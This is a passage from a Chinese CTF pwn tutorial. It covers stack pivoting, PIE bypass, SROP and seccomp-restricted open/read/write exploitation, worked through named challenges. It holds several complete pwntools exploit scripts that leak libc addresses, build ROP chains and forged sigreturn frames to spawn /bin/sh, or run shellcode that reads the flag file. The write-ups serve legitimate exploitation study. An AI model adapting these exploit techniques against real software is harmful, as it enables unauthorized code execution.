01:0004│-02c 0xffffb50c —▸ 0x804a044 (stdout@@GLIBC_2.0) —▸ 0xf7f9ad40 (_IO_2_1_stdout_) ◂— 0xfbad2887
02:0008│-028 0xffffb510 —▸ 0xffffb548 ◂— 0
03:000c│-024 0xffffb514 —▸ 0xf7fd8390 (_dl_runtime_resolve+16) ◂— pop edx
04:0010│-020 0xffffb518 —▸ 0xf7f9b8e0 (_IO_stdfile_1_lock) ◂— 0
05:0014│-01c 0xffffb51c —▸ 0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
06:0018│-018 0xffffb520 —▸ 0x8048640 (__libc_csu_init) ◂— push ebp
07:001c│-014 0xffffb524 —▸ 0xf7ffcb60 (_rtld_global_ro) ◂— 0
08:0020│-010 0xffffb528 —▸ 0xffffb548 ◂— 0
09:0024│-00c 0xffffb52c —▸ 0x8048622 (main+35) ◂— add esp, 0x10
0a:0028│-008 0xffffb530 —▸ 0x80486d8 ◂— push edi /* "Welcome, my friend. What's your name?" */
0b:002c│-004 0xffffb534 ◂— 0
0c:0030│ ebp 0xffffb538 —▸ 0xffffb548 ◂— 0
0d:0034│+004 0xffffb53c —▸ 0x804862a (main+43) ◂— mov eax, 0
0e:0038│+008 0xffffb540 ◂— 0
0f:003c│+00c 0xffffb544 —▸ 0xffffb560 ◂— 1
10:0040│+010 0xffffb548 ◂— 0
11:0044│+014 0xffffb54c —▸ 0xf7d8bcc3 (__libc_start_call_main+115) ◂— add esp, 0x10
12:0048│+018 0xffffb550 ◂— 0
13:004c│+01c 0xffffb554 ◂— 0
14:0050│+020 0xffffb558 —▸ 0xf7da5029 (__new_exitfn+9) ◂— add ebx, 0x1f4deb
15:0054│+024 0xffffb55c —▸ 0xf7d8bcc3 (__libc_start_call_main+115) ◂— add esp, 0x10
16:0058│+028 0xffffb560 ◂— 1
17:005c│+02c 0xffffb564 —▸ 0xffffb614 —▸ 0xffffb8ec ◂— '/root/Pwn/pwn2'
18:0060│+030 0xffffb568 —▸ 0xffffb61c —▸ 0xffffb8fb ◂— 'POWERSHELL_TELEMETRY_OPTOUT=1'
19:0064│+034 0xffffb56c —▸ 0xffffb580 —▸ 0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
1a:0068│+038 0xffffb570 —▸ 0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
1b:006c│+03c 0xffffb574 —▸ 0x80485ff (main) ◂— lea ecx, [esp + 4]
1c:0070│+040 0xffffb578 ◂— 1
1d:0074│+044 0xffffb57c —▸ 0xffffb614 —▸ 0xffffb8ec ◂— '/root/Pwn/pwn2'
```

可以看到ebp中存放的old_ebp比ebp大0x10，所以我们得到了s和old_ebp的差值为0x38

hack中有system的plt地址，所以我们可以直接构造payload了，代码如下

```python
from pwn import *

context(os="linux", arch="i386", log_level="debug")
io = process("./PWN4")
#io = remote("node5.anna.nssctf.cn", 25943)
leave_ret = 0x8048562
system_plt = 0x8048400
leak = b'a'*(0x27) + b'B'

io.recvuntil("name?")
#gdb.attach(io)
io.send(leak)
io.recvuntil(b'B')
old_edp = u32(io.recv(4))
print(hex(old_edp))

payload = b'a'*4 + p32(system_plt) + b'a'*4 + p32(old_edp - 0x28) + b'/bin/sh\x00'

payload = payload.ljust(0x28, b'\x00')
payload += p32(old_edp - 0x38) + p32(leave_ret)
io.recvuntil('\n')
io.send(payload)

io.interactive()
```

### 64位下的栈迁移&栈迁移到bss段的细节 buuctf gyctf_2020_borrowstack

ida看一下


第一个read存在溢出，第二个read在bss段，直接在bss写入东西，将bss段当作一个栈来使用，ret2libc即可

值得注意的是这题的got表离这个bss段地址是很近的，因为我们要把栈迁移到bss段，就是可以把这个bss段给看成栈了，我们会在这个“栈”里面调用puts函数去泄露函数地址，但是调用puts的时候会开辟新的栈帧从而改变地址较低处的内容（不仅仅是got表，还有FILE *stdout和FILE *stdin），导致程序崩溃。

所以得加一些空余的空间，最后代码如下

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

e    = ELF('./gyctf')
libc = ELF('./libc-2.23.so')     # ✅ 用题目给的 libc
p    = remote("node5.buuoj.cn",27183)

pop_rdi    = 0x400703
leave_addr = 0x400699
bank_addr  = 0x601080
main_addr  = e.symbols['main']
ret_addr   = 0x4004c9            # 你之前用的 ret

puts_plt = e.plt['puts']
puts_got = e.got['puts']

# ---------- 第一次：泄露 puts ----------
payload_pivot1 = b'a'*0x60 + p64(bank_addr+0xd0) + p64(leave_addr)
payload_rop1   = (
    b'a'*0xd0 +
    p64(0) +
    p64(pop_rdi) + p64(puts_got) +
    p64(puts_plt) +
    p64(main_addr)
)

p.sendafter("Ｗelcome to Stack bank,Tell me what you want", payload_pivot1)
p.sendafter("Done!You can check and use your borrow stack now!", payload_rop1)

p.recvline()
leak = p.recvline().strip()
puts_addr = u64(leak.ljust(8, b'\x00'))
log.success(f"puts addr: {hex(puts_addr)}")

libc_base   = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + next(libc.search(b'/bin/sh\x00'))

log.success(f"libc base   = {hex(libc_base)}")
log.success(f"system      = {hex(system_addr)}")
log.success(f"/bin/sh     = {hex(binsh_addr)}")

# ---------- 第二次：起 shell ----------
payload_pivot2 = b'a'*0x60 + p64(bank_addr+0xd0) + p64(leave_addr)
payload_rop2   = (
    b'a'*0xd0 +
    p64(0) +
    p64(pop_rdi) + p64(binsh_addr) +
    p64(ret_addr) +          # 保证栈 16 字节对齐
    p64(system_addr)
)

p.sendafter("Ｗelcome to Stack bank,Tell me what you want", payload_pivot2)
p.sendafter("Done!You can check and use your borrow stack now!", payload_rop2)

p.interactive()

```

[Black Watch 入群题]PWN

# PIE绕过

## PIE是什么

PIE全称是position-independent executable，中文解释为地址无关可执行文件，该技术是一个针对代码段（.text）、数据段（.data）、未初始化全局变量段（.bss）等固定地址的一个防护技术，如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址，从而不能通过ROPgadget等一些工具来帮助解题。

PIE最明显的特征可以在ida中看出来，下面分别是没开PIE和开了PIE的程序




这里可以看到.text段的地址只剩下最后的四个数字了，开启了pie保护后每次运行程序的加载基址都是不同的，程序的实际运行地址 = 程序加载基址 + 程序偏移地址

## 关于开启了PIE保护程序的调试

由于程序开启了pie保护，当我们在使用pwngdb对程序进行调试的时候无法下断点



那我们就可以通过b *$rebase(0x13F9)这种方式下断点调试，括号里面的是ida中反汇编出来的程序地址偏移量，需要注意的是在下断点调试之前，程序要先执行一次



### 格式化字符串泄露真实地址

ebp上面是函数的返回地址，利用格式化字符串将这个地址泄露出来，减去偏移量就可以得到base地址

### partial write

partial write(部分写入)就是一种利用了PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为0x1000，这就意味着不管地址怎么变，某条指令的后12位，3个十六进制数的地址是始终不变的。因此通过覆盖EIP的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP。

简单来说就是不管程序加载基址怎么变化，偏移量和真实地址的最后三位都是一样的，可以参考一下深育杯的那一道题，偏移量是0x146f，真实地址就是0x55555555546f

所以可以直接爆破

# SROP

## 前言

SROP全称为(Sigreturn Oriented Programming)，在ctfwiki中将其归类为了高级ROP，其中，sigreturn是一个系统调用，在类 unix 系统发生 signal 的时候会被间接地调用，其实就是利用了linux中的系统调用号，利用linux下的15号系统调用号调用->rt_sigreturn

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：



1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2. 内核会为该进程保存相应的上下文，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，这一部分是在用户进程的地址空间的。之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。


这一段内存也被称为Signal Frame

1. 保存上下文环境（即各种寄存器），接下来走到
2. 执行信号处理函数，处理完后恢复相关栈环境
3. 继续执行用户程序。而在恢复寄存器环境时没有去校验这个栈是不是合法的，如果我们能够控制栈，就能在恢复上下文环境这个环节直接设定相关寄存器的值。

在1~2的过程中，此时我们保存的sigFrame是完全在用户空间的，也就是对于进程来说可读可写，而且其实SROP利用的最根本的漏洞是因为，在1的时候内核对于进程挂起后保存下的sigFrame以及恢复环境是的sigFrame是没有关联的，所以我们可以伪造sigFrame从而利用syscall进行调用恶意进程。

用于在内核在恢复上下文的时候并没有与保存的上下文做对比，同时内核在恢复上下文时是从构造的Signal Frame中pop出来各个寄存器的值，而此时的Signal Frame是在栈里的并且用户是可读可写的。这两点疏忽就导致了我们可以伪造Signal Frame之后主动执行sigreturn来控制每个寄存器的值。



举个简单的例子，我们修改各个寄存器的值为

```bash
rax=59 //linux系统调用号59在64位下对应->execve()
rdi='/bin/sh\00'
rsi=0x0
rdx=0x0
```

这样其实就是就可以进行getshell，这其实也就是最简单的一个SROP

使用SROP的前提

首先程序必须存在溢出，能够控制返回地址。

可以去系统调用sigreturn（如果找不到合适的系统调用号，可以看看能不能利用read函数来控制RAX的值）

必须能够知道/bin/sh的地址，如果写的bss段，直接写地址就行，如果写到栈里，还需要想办法去泄露栈地址。

允许溢出的长度足够长，这样可以去布局我们想要的寄存器的值

需要知道syscall指令的地址

上面所说的SROP都是只能调用一个syscall，其实我们可以一直劫持从而构造一个SROP链的



可以看一下上图构造的栈结构，我们将rsp中的内容填入下一个片段的rt_sigreturn的地址，而且rip的地址一直指向syscall;ret，

需要特别注意的是一定要存在ret，不然我们无法返回到下一个片段。

至此即可构造SROP链。

在内核里，rt_sigreturn 的实现大概是这样（简化后）

```c
SYSCALL_DEFINE0(rt_sigreturn)
{
    struct pt_regs *regs = current_pt_regs();
    struct rt_sigframe __user *frame;

    // 关键：从当前用户态栈指针算出 frame 起始地址
    frame = (struct rt_sigframe __user *)(regs->sp - sizeof(long));

    // 检查这块用户空间是不是可读
    if (!access_ok(frame, sizeof(*frame))
        goto badframe;

    // 从 frame 里把之前保存的寄存器状态读出来
    // restore_sigcontext(...)
    // 恢复所有通用寄存器、rip、rsp 等
    // 然后用这个新状态返回到用户态
}

```

所以，当我们构造调用链时，通常会有syscall(15)，之后leave ret，内核会把在leave ret 前rsp指向的位置当作是sigreturn frame的开头

一般模板如下

```bash
from pwn import *

# 先设定架构
context.arch = 'amd64'   # 或 'i386'
context.os   = 'linux'

# 1. 构造一个空的 frame
frame = SigreturnFrame()   # 这里会根据 context.arch 选择对应架构的布局

# 2. 按照寄存器名赋值
frame.rax = 59             # execve
frame.rdi = binsh_addr     # "/bin/sh" 地址
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr   # 让恢复完上下文后去执行 syscall 指令
frame.rsp = new_rsp        # 恢复后的栈指针（很重要，别忘了）

# 3. 变成字节串，塞进 payload
payload  = b'A' * offset_to_ret
payload += p64(syscall_addr_for_rt_sigreturn)  # 第一次 syscall，用 rax=15 进 rt_sigreturn
payload += bytes(frame)

```

## 例题 [CISCN 2019华南]PWN3

cheksec查看保护

```bash
└─# checksec PWN         
/root/miniconda3/envs/ctf/lib/python3.11/site-packages/unicorn/unicorn_py3/unicorn.py:123: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] '/root/Pwn/srop/[CISCN 2019华南]PWN3/PWN'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

ida反汇编





给了特别大的溢出空间，同时提示15（signalret调用号），59（execute系统调用号），所以这题很明显要用SROP

现在SROP的条件满足了大多数，但是没有bin/sh的地址

我们可以直接将bin/sh写到栈上，之后想办法得到栈上bin/sh的地址

动态调试一下

```bash
 ► 0x400503 <vuln+22>    mov    rax, 1                RAX => 1
   0x40050a <vuln+29>    mov    edx, 0x30             EDX => 0x30
   0x40050f <vuln+34>    lea    rsi, [rsp - 0x10]     RSI => 0x7fffffffc1c0 ◂— 0xa6161 /* 'aa\n' */
   0x400514 <vuln+39>    mov    rdi, rax              RDI => 1
   0x400517 <vuln+42>    syscall  <SYS_write>
```

能看到输入的位置是0x7fffffffc1c0，看一下0x7fffffffc1c0周围的东西

```bash
pwndbg> x/20gx 0x7fffffffc1c0
0x7fffffffc1c0: 0x00000000000a6161      0x0000000000000000
0x7fffffffc1d0: 0x00007fffffffc1f0      0x0000000000400536
0x7fffffffc1e0: 0x00007fffffffc308      0x0000000100000000
0x7fffffffc1f0: 0x0000000000000001      0x00007ffff7dd8ca8
0x7fffffffc200: 0x0000000000000000      0x000000000040051d
0x7fffffffc210: 0x0000000100000000      0x00007fffffffc308
0x7fffffffc220: 0x00007fffffffc308      0x6cf7000c1079dc18
0x7fffffffc230: 0x0000000000000000      0x00007fffffffc318
0x7fffffffc240: 0x00007ffff7ffd000      0x0000000000000000
0x7fffffffc250: 0x9308fff3947bdc18      0x9308efb708bbdc18
```

（这里可能是题目的问题，用1d0中的偏移来打是打不通的）
可以看到距离7fffffffc1c0外0x20的地方有一个栈上的地址，偏移是0x148，而write能读0x30的东西

所以我们先过滤0x20个无效的输出，然后得到栈上地址，减去0x148就可以得到bin/sh的位置
（题目有问题，远程是ubuntu16.04，远程的偏移是0x118）

值得注意的是，这题的vuln是直接ret的

```bash
Dump of assembler code for function vuln:
   0x00000000004004ed <+0>:     push   rbp
   0x00000000004004ee <+1>:     mov    rbp,rsp
   0x00000000004004f1 <+4>:     xor    rax,rax
   0x00000000004004f4 <+7>:     mov    edx,0x400
   0x00000000004004f9 <+12>:    lea    rsi,[rsp-0x10]
   0x00000000004004fe <+17>:    mov    rdi,rax
   0x0000000000400501 <+20>:    syscall
   0x0000000000400503 <+22>:    mov    rax,0x1
   0x000000000040050a <+29>:    mov    edx,0x30
   0x000000000040050f <+34>:    lea    rsi,[rsp-0x10]
   0x0000000000400514 <+39>:    mov    rdi,rax
=> 0x0000000000400517 <+42>:    syscall
   0x0000000000400519 <+44>:    ret
   0x000000000040051a <+45>:    nop
   0x000000000040051b <+46>:    pop    rbp
   0x000000000040051c <+47>:    ret
```

所以不用加8，直接把gadget放在0x10上就行了

满足sigretun的所有条件，编写payload即可

```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')

io=process("./srop")
#io=remote('node5.anna.nssctf.cn',27674)

vuln_addr=0x4004ED
gadegets=0x4004DA
syscall=0x400517

payload1=b'a'*(0x10)+p64(vuln_addr)
gdb.attach(io)
pause()
io.send(payload1)

a = io.recv(0x20)
stack_addr = u64(io.recv(8))
print(hex(stack_addr))

buf_addr=stack_addr-0x148 #本地
#buf_addr=stack_addr-0x118 #远端
print(hex(buf_addr))

sigframe=SigreturnFrame()
sigframe.rax=59
sigframe.rdi=buf_addr
sigframe.rsi=0
sigframe.rdx=0
sigframe.rip=syscall
payload2= b'/bin/sh\x00'.ljust(0x10, b'a') + p64(gadegets) + p64(syscall) + bytes(sigframe)

io.send(payload2)
io.interactive()
```

## 多个SROP链利用 例题 rootersctf_2019_srop(buu)

checksec看一下保护

```bash
└─# checksec PWN             
[*] '/root/Pwn/srop/rootersctf_2019_srop(buu)/PWN'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

ida看一下




没有直接system(bin/sh)的地址，没有gadget，没法ret2libc

```bash
(ctf) ┌──(root㉿x86_64-conda-linux-gnu)-[~/Pwn/srop/rootersctf_2019_srop(buu)]
└─# ROPgadget --binary shaokao --only "pop|ret" | grep rdi   
```

栈上可以用的空间很多，可以srop，现在就差bin/sh的地址，动态调试一下

```bash
 RDI  0
 RSI  0x7fffffffc270 ◂— 'dfdsdfdf\n'
 R8   0
```

write能读出buf往上0x24的东西，看一下buf周围的东西

write写入的位置是0x7fffffffc270，看一下0x7fffffffc270周围的东西

```bash
pwndbg> x/20gx 0x7fffffffc270
0x7fffffffc270: 0x6664666473646664      0x000000000000000a
0x7fffffffc280: 0x0000000000000000      0x0000000000000000
0x7fffffffc290: 0x0000000000000000      0x0000000000000000
0x7fffffffc2a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc2b0: 0x0000000000000000      0x0000000000000000
0x7fffffffc2c0: 0x0000000000000000      0x0000000000000000
0x7fffffffc2d0: 0x0000000000000000      0x0000000000000000
0x7fffffffc2e0: 0x0000000000000000      0x0000000000000000
0x7fffffffc2f0: 0x0000000000000000      0x000000000040103c
0x7fffffffc300: 0x0000000000000001      0x00007fffffffc881
```

没有能直接漏洞的栈上地址，这个时候就要采取第二种思路了，构造srop链，先构造一个伪造的栈空间将binsh写入data段，之后再进行一次srop调用execve()从而getshell

代码中其实有两个buf，一个是放在栈上的，应该是存"Hey, can i get some feedback for the CTF?\n"，这段内容的，第二个buf在data段上，位置如图


所以可以尝试在data中写入bin/sh，之后将执行的地址转移到data段

但是题目中只有一次读入，所以需要先构造一个sigreturn来再进行一次读入，即read函数，read函数的syscall值为0.所以第一段sigreturn的rax为0，为的是触发一次syscall_read

read函数有三个参宿ssize_t read(int fd, void *buf, size_t count);，fd设为0，即rdi=0，代表从键盘/管道读入参数，*buf设为buf的地址，即rsi = buf，代表向buf所在位置读入，count，即rdx设一个大点的数就行，代表最多读入的数据

这时候我们就能控制buf上的数据了，那要怎么移动到buf上使得我们能利用我们输入的数据呢

可以利用栈迁移的思想，再次经行一个leave ret，将rbp中存的地址改到buf的附近，之后leave，这样rsp中存的值也是buf附近的值，然后ret，将rsp中的值赋给rip，这样我们就劫持了程序的执行流，使得程序能在buf处执行。

第二个构造的sigretrun frame，就用来获取shell就行

```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')

p = remote("node5.buuoj.cn",28632)

buf_addr = 0x402000
pop_rax_syscall_leave_ret = 0x401032
syscall_leave_ret = 0x401033
syscall = 0x401046

sigframe=SigreturnFrame()
sigframe.rip = syscall_leave_ret
sigframe.rax = 0
sigframe.rsi = buf_addr
sigframe.rdi = 0
sigframe.rdx = 0x400
sigframe.rbp = buf_addr+0x30

payload1 = b'a'*0x88 + p64(pop_rax_syscall_leave_ret)+p64(15)+bytes(sigframe)

p.sendafter("Hey, can i get some feedback for the CTF?\n",payload1)

sigframe2=SigreturnFrame()
sigframe2.rdi = buf_addr
sigframe2.rax = 59
sigframe2.rsi=0
sigframe2.rdx=0
sigframe2.rip = syscall_leave_ret

## 这里+8是因为leave会pop一次rbp，使得rsp+8
payload2 =  b'/bin/sh\x00'.ljust(0x38, b'a') + p64(pop_rax_syscall_leave_ret)+p64(15)+bytes(sigframe2)

p.sendline(payload2)
p.interactive()
```

# ORW

## 前言

### 沙箱保护

沙箱保护是对程序加入一些保护，最常见的是禁用一些系统调用，如execve，使得我们不能通过系统调用execve或system等获取到远程终端权限，因此只能通过ROP的方式调用open, read, write的来读取并打印flag 内容

orw其实就是open,read,write的简写，其实就是打开flag，写入flag，输出flag

### 查看沙箱

可以利用seccomp-tools来查看是否开启了沙箱，以及沙箱中一些允许的syscall

```bash
seccomp-tools dump ./pwn
```

利用上面指令即可查看程序沙箱信息

### 开启沙箱的两种方式

在ctf的pwn题中一般有两种函数调用方式实现沙盒机制，第一种是采用prctl函数调用，第二种是使用seccomp库函数

#### prctl()函数调用

看一下函数原型

```c
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);

// 主要关注prctl()函数的第一个参数，也就是option,设定的option的值的不同导致黑名单不同，介绍2个比较重要的option
// PR_SET_NO_NEW_PRIVS(38) 和 PR_SET_SECCOMP(22)

// option为38的情况
// 此时第二个参数设置为1，则禁用execve系统调用且子进程一样受用
prctl(38, 1LL, 0LL, 0LL, 0LL);

// option为22的情况
// 此时第二个参数为1，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
// 第二个参数为2，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则。
prctl(22, 2LL, &v1);
```

#### seccomp()函数调用

函数原型

```c
__int64 sandbox()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  // 这里介绍两个重要的宏，SCMP_ACT_ALLOW(0x7fff0000U) SCMP_ACT_KILL( 0x00000000U)
  // seccomp初始化，参数为0表示白名单模式，参数为0x7fff0000U则为黑名单模式
  v1 = seccomp_init(0LL);
  if ( !v1 )
  {
    puts("seccomp error");
    exit(0);
  }

  // seccomp_rule_add添加规则
  // v1对应上面初始化的返回值
  // 0x7fff0000即对应宏SCMP_ACT_ALLOW
  // 第三个参数代表对应的系统调用号，0-->read/1-->write/2-->open/60-->exit
  // 第四个参数表示是否需要对对应系统调用的参数做出限制以及指示做出限制的个数，传0不做任何限制
  seccomp_rule_add(v1, 0x7FFF0000LL, 2LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 0LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 1LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 60LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 231LL, 0LL);

  // seccomp_load->将当前seccomp过滤器加载到内核中
  if ( seccomp_load(v1) < 0 )
  {
    // seccomp_release->释放seccomp过滤器状态
    // 但对已经load的过滤规则不影响
    seccomp_release(v1);
    puts("seccomp error");
    exit(0);
  }
  return seccomp_release(v1);
}
```

### shellcode写入哪里

一般这种ORW题目给出的溢出大小不够我们写入很长的ROP链的，因此会提供mmap()函数，从而给出一段在栈上的内存

使用mmap申请适合4byte的寄存器的地址

mmap函数原型如下

```c
void *mmap{
    void *addr; //映射区首地址，传NULL
    size_t length; //映射区大小
    //会自动调为4k的整数倍
    //不能为0
    //一般文件多大，length就指定多大
    int prot; //映射区权限
    //PROT_READ 映射区必须要有读权限
    //PROT_WRITE
    //PROT_READ | PROT_WRITE
    int flags; //标志位参数
    //MAP_SHARED 修改内存数据会同步到磁盘
    //MAP_PRIVATE 修改内存数据不会同步到磁盘
    int fd; //要映射文件所对应的文件描述符
    off_t offset; //映射文件的偏移量，从文件哪个位置开始
    //映射的时候文件指针的偏移量
    //必须是4k的整数倍
    //一般设为0
}
```



### ORW全在例题  [极客大挑战 2019]Not Bad buu

查看保护

```bash
└─# checksec bad
/root/miniconda3/envs/ctf/lib/python3.11/site-packages/unicorn/unicorn_py3/unicorn.py:123: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] '/root/Pwn/ORW/[极客大挑战 2019]Not Bad(buu)/bad'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
```

保护全都关了，查看ida

先用mmap分配了一个能用的内存，main中有三个函数，第一个是用seccomp开启的沙箱，给了ORW三个syscall，第二个是缓冲区，第三个是漏洞函数


给出溢出的位置了，ORW全有，接下来就是想办法怎么把shellcode放到题目给的内存位置，并且读出flag了

查看题目中给的内存位置的特性

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x123000           0x124000 -wxp     1000       0 [anon_00123]
          0x400000           0x401000 r-xp     1000       0 bad
          0x600000           0x601000 r--p     1000       0 bad
          0x601000           0x602000 rw-p     1000    1000 bad
          0x602000           0x623000 rw-p    21000       0 [heap]
    0x7ffff7d7e000     0x7ffff7d81000 rw-p     3000       0 [anon_7ffff7d7e]
    0x7ffff7d81000     0x7ffff7da9000 r--p    28000       0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7da9000     0x7ffff7f0e000 r-xp   165000   28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f0e000     0x7ffff7f64000 r--p    56000  18d000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f64000     0x7ffff7f68000 r--p     4000  1e2000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f68000     0x7ffff7f6a000 rw-p     2000  1e6000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f6a000     0x7ffff7f77000 rw-p     d000       0 [anon_7ffff7f6a]
    0x7ffff7f77000     0x7ffff7f7a000 r--p     3000       0 /usr/lib/x86_64-linux-gnu/libseccomp.so.2.6.0
    0x7ffff7f7a000     0x7ffff7f89000 r-xp     f000    3000 /usr/lib/x86_64-linux-gnu/libseccomp.so.2.6.0
    0x7ffff7f89000     0x7ffff7fa3000 r--p    1a000   12000 /usr/lib/x86_64-linux-gnu/libseccomp.so.2.6.0
    0x7ffff7fa3000     0x7ffff7fa4000 r--p     1000   2b000 /usr/lib/x86_64-linux-gnu/libseccomp.so.2.6.0
    0x7ffff7fa4000     0x7ffff7fa5000 rw-p     1000   2c000 /usr/lib/x86_64-linux-gnu/libseccomp.so.2.6.0
    0x7ffff7fbf000     0x7ffff7fc1000 rw-p     2000       0 [anon_7ffff7fbf]
```

可写可执行，所以将shellcode放到给的内存段可直接执行



题目还给了能跳到rsp的函数，所以可以将返回地址处覆盖成这个函数，之后rip会指向rsp+8的位置，即返回地址上面，然后再紧跟着返回地址写修改mmap内容的语句即可

```py

from pwn import *

context(os="linux", arch="x86-64", log_level="debug")
p = process("./pwn")
# p = remote("node4.anna.nssctf.cn", 28474)

jmp_rsp = 0x400A01

mmap = 0x123000

pl=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
pl=pl.ljust(0x28,b'\x00')

# 跳转到第二次写入
pl+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')

orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

p.sendafter("have fun!",pl)

shell=asm(orw)

p.sendline(shell)

p.interactive()

```

这里先说一下为什么read的fd是3，可以结合下面图片，0~2都是保留的用于缓冲区，我们打开第一个新文件的文件描述符是3，第二个是4，以此类推



### OR缺W 采取爆破 2021-蓝帽杯初赛-slient

这里没有找到原题，所以就从网上各位师傅们的wp中大概还原了一下题目，保护如下


保护全开，查看沙箱能执行什么syscall

```bash
root@ubuntu:/home/evil/Desktop/pwn test/orw/ciscn2023/2021 slient# seccomp-tools dump ./pwn
Welcome to silent execution-box.

line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x01 0x00 0x00000000  if (A == read) goto 0007
 0006: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

只给了open和read，没有给write，ida如下

main

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v3; // eax
  __int128 v4; // xmm0
  __int128 v5; // xmm1
  __int128 v6; // xmm2
  __int64 v7; // [rsp+48h] [rbp-68h]
  __int64 v8; // [rsp+50h] [rbp-60h]
  __int128 buf; // [rsp+60h] [rbp-50h] BYREF
  __int128 v10; // [rsp+70h] [rbp-40h]
  __int128 v11; // [rsp+80h] [rbp-30h]
  __int128 v12; // [rsp+90h] [rbp-20h]
  unsigned __int64 v13; // [rsp+A0h] [rbp-10h]

  v13 = __readfsqword(0x28u);
  sub_A60(a1, a2, a3);
  v12 = 0LL;
  v11 = 0LL;
  v10 = 0LL;
  buf = 0LL;
  puts("Welcome to silent execution-box.");

  //返回一分页的大小，单位为字节(byte)。此为系统的分页大小，不一定会和硬件分页大小相同,在 Intel x86 上其返回值应为4096即0x1000
  v3 = getpagesize();
  v8 = (int)mmap((void *)0x1000, v3, 7, 34, 0, 0LL);
  read(0, &buf, 0x40uLL);
  prctl(38, 1LL, 0LL, 0LL, 0LL);
  prctl(4, 0LL);
  v7 = seccomp_init(0LL);
  seccomp_rule_add(v7, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v7, 2147418112LL, 0LL, 0LL);
  seccomp_load(v7);
  v4 = buf;
  v5 = v10;
  v6 = v11;
  *(_OWORD *)(v8 + 48) = v12;
  *(_OWORD *)(v8 + 32) = v6;
  *(_OWORD *)(v8 + 16) = v5;
  *(_OWORD *)v8 = v4;
  ((void (__fastcall *)(__int64, __int64, __int64))v8)(3735928559LL, 3735928559LL, 3735928559LL);
  if ( __readfsqword(0x28u) != v13 )
    init();
}
```

这里的mmap没有指定从哪里开始读入，参考linux官方手册的内容

> If addr is NULL, then the kernel chooses the (page-aligned) address at which to create the mapping; this is the most portable method of creating a new mapping. If addr is not NULL, then the kernel takes it as a hint about where to place the mapping; on Linux, the kernel will pick a nearby page boundary (but always above or equal to the value specified by /proc/sys/vm/mmap_min_addr) and attempt to create the mapping there. If another mapping already exists there, the kernel picks a new address that may or may not depend on the hint. The address of the new mapping is returned as the result of the call

